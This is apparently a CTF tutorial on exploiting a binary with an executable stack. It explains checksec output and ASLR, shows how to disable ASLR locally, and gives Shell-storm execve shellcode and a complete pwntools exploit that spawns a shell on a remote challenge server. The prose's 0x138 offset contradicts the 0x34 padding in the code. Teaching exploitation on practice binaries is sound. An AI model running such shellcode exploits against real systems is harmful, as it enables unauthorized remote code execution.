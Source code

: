 ```yaml
---
description: Writing shellcode to a provided buffer.
---
```


# location

{% file src="../../.gitbook/assets/location.zip" %}

We will practice writing shellcode against a binary with an executable stack. Note that this attack is relatively uncommon because executable stacks are turned off by default. Shellcode can often work better with other exploit techniques that alter the binary.

### Verifying Shellcode

We check the security measures to see that shellcode is plausible:

```bash
$ checksec location
[*] '/home/joybuzzer/Documents/vunrotc/public/02-shellcodes/location/src/location'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

The mark that the stack is executable is our sign that we can use a shellcode attack. The reverse is not always true: _a binary with a non-executable stack can still be vulnerable to shellcode attacks._

### Running the Binary

Running shellcode binaries are good ways to check the information we have:

```bash
$ nc vunrotc.cole-ellis 2300
Buffer is at 0xffffd308
[[[Test input]]]
You lose!
```

We might notice that if we run this file _remotely_ multiple times, the address of the buffer is not changed. What happens when we run the file _locally_? We notice that the address of the buffer changes every time and by a significant amount.

{% hint style="danger" %}
The reason behind this is a security measure called **ASLR**. ASLR stands for **A**ddress **S**pace **L**ayout **R**andomization. ASLR is a security measure that randomizes the location of the stack and heap in memory. This means that when the binary is loaded, the address of the buffer is guaranteed going to change. This makes it harder to exploit the binary, because we can't just hardcode the address of the buffer into our exploit.
{% endhint %}

Because ASLR is turned off on the remote server, the address is not changing. ASLR is turned on locally, so the address is changing. We can turn off ASLR locally to make our lives easier:

```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{% hint style="info" %}
To turn it on again, use `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`.
{% endhint %}

### Static Analysis

One of the first things you should notice is that there is no `win()` function or anything like that. This means that we will need to get the flag some other way. We also notice that the `flag.txt` file is never loaded (verifiable by `strings location | grep flag.txt`). _How can we solve this?_ If we can find some way to get a shell on the remote server, we can read the flag ourselves.

There is an obvious vulnerable `gets()` call, and we know that the stack is executable. This means that we could write lots of shellcode in our buffer. Since we know where the address of our buffer is, we can then jump to that address and execute our shellcode.

### Writing the Shellcode

Writing your own shellcode is a bit out of the scope of this guide. This guide focuses more on ways to exploit a binary and use your resources rather than reinventing the wheel and doing it from scratch.

I use the same few shellcodes for most of my challenges. There is an online database of shellcodes called [Shellstorm](https://shell-storm.org/shellcode/index.html) that has lots of functional shellcode for various architectures.

Since this is a 32-bit binary, I choose an x86 shellcode that spawns a shell. [Shellstorm-811](https://shell-storm.org/shellcode/files/shellcode-811.html) is a great choice for this challenge. The shellcode reads:

```as
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
```

We can either pass the shellcode as a string of functions, or we can pass it as a byte string of hexadecimal values. Frankly, the second one is easier, and the shellcode is provided in that format:

```python
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

### Writing the Payload

We need to consider how we're going to craft this payload. The only reference we have is the address of the buffer, meaning that the shellcode needs to start there. We still need to overwrite the return pointer. We see that we need to write `0x138` bytes to reach the return pointer.

Thankfully, Python has a way to fill a string to a desired size: `ljust`. `ljust` takes two arguments, being the new size of the string and the character you want to use to fill the space. `ljust` will **left justify** the old string in the new string, filling the space on the back. (_There are other commands like `rjust`, but that's not useful for us in this case_).

We can format this command as

```python
payload = payload.ljust(0x138, b'A')
```

This means that our payload is going to look like:

```python
payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x34, b'A')
payload += p32(buf)
```

### Getting the Buffer Address

How do we get the address of `buf`, where we're writing to? Pwntools has a method that lets us receive data, so we can receive that address and convert it into a buffer.

There are multiple methods to receive data from the process. By far, the most useful is `recvuntil()`, which takes an argument of the string you want to match when receiving data. At the first instance it finds the passed string, it will stop receiving data. This means that we should do this in two parts:

1. Get the first part of the data, which is the string before the buffer, then
2. Get the buffer address and convert it to a hex value.

```python
p.recvuntil(b'Buffer is at ')
buf = int(p.recvline().strip(), 16)
```

Let's break this one down:

* We know that the format of the line is "_Buffer is at 0xff8bc508_".
* We first receive all the data before the address of the buffer. That data isn't relevant to us, so there's no need to store it.
* Then, we receive the rest of the line, which is the address. `.strip()` removes the new line at the end.
* `int(x, 16)` converts a string with a hex value (i.e. `"0xff8bc508"`) into a hexadecimal.

### Flag

This is everything we need to craft an exploit.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./location')
p = remote('vunrotc.cole-ellis.com', 2300)

p.recvuntil(b'Buffer is at ')
buf = int(p.recvline().strip(), 16)
log.info(f'buf: {hex(buf)}')

payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x34, b'A')
payload += p32(buf)

p.sendline(payload)
p.interactive()
```
{% endcode %}

This gets a shell on the remote server, and then we can `cat flag.txt` to get the flag!

